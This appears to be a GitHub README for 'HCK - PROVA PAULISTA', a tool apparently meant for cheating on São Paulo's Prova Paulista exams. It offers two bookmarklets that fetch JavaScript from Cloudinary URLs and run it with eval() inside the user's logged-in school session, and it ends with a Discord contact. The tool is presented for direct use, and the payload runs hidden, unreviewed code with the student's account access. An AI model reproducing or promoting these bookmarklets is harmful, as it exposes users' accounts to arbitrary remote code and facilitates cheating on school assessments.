 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745543656/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
